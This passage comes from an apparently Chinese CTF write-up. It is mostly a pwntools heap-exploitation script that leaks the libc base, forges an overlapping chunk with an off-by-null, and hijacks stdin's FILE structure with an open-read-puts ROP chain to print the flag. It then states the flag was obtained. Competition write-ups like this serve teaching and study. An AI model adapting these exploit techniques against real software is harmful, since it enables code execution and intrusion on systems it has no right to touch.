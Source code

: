 ```
#debug()

#leak libcbase
for i in range(2,0x8):
    show(i)
#add(0xe0,b'a'*8)
add(0xa0,b'a'*8)
show(0)
p.recvuntil(b'a'*8)
libcbase=u64(p.recv(6).ljust(8,b'\x00'))-(0x00007fd0cccfbdd0-0x7fd0ccb10000)
#off by null 
#only rest index=8,9,10,11
#0x100--&gt;0x150 0x150+0xb0=0x200
add(0x140,p64(0)+p64(0x191+0x40+0x1a0)+p64(heap+(0x5609760e2190-0x5609760e1000-0x40))+p64(heap+(0x5609760e2190-0x5609760e1000-0x40)))#0
debug()
edit(9,b'a'*0x10+p64(0x190+0x40+0x1a0))
show(10)#get overlap

#orw 
stdin = libcbase + (0x7f277caba980-0x7f277c8cf000)
ret=0x0000000000025679+libcbase
pop_rdi=libcbase+0x0000000000026b72
pop_rsi=libcbase+0x0000000000027529
pop_rdx_rbx=libcbase+0x0000000000162866
flag = heap + 0x565150050530 + 0x1e0 - 0x56515004f000 + 0x1a0
orw = p64(pop_rdi)+p64(flag)+p64(pop_rsi)+p64(0)+p64(libc.symbols['open']+libcbase)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_rbx)+p64(0x50)+p64(0)+p64(libc.symbols['read']+libcbase)
orw += p64(pop_rdi)+p64(flag)+p64(libc.symbols['puts']+libcbase)
if len(orw) &gt; 0xa0:
    print("orw too long ")
    pause()
orw = orw.ljust(0xa0,b'\x00')
orw += p64(stdin + 0xe0) + p64(ret)

#stdin = libcbase + (0x7f277caba980-0x7f277c8cf000)
payload = b'\x00'*0x28
payload += p64(stdin + 0xe0)#_IO_write_ptr &amp;&amp; rdi+0x28--&gt;rdx
payload = payload.ljust(0xd8,b'\x00')
payload += p64(libcbase + 0x1ed560)#_IO_str_jumps
payload += orw
payload = payload.ljust(0x1f0,b'\x00')
payload += p64(libcbase+0x0000000000580DD)#malloc_hook--&gt;set_context

show(12)
show(8)
add(0x130,b'a')
add(0x50,p64(stdin))#fd--&gt;stdin
add(0x200,b'a')
add(0x200,payload)
debug()
p.interactive()
```

然后拿到flag

[![](https://p5.ssl.qhimg.com/t0121a0a714f80de955.png)](https://p5.ssl.qhimg.com/t0121a0a714f80de955.png)

最后，如果文中有什么错误请各位师傅指出；如果有更好的思路欢迎交流分享。
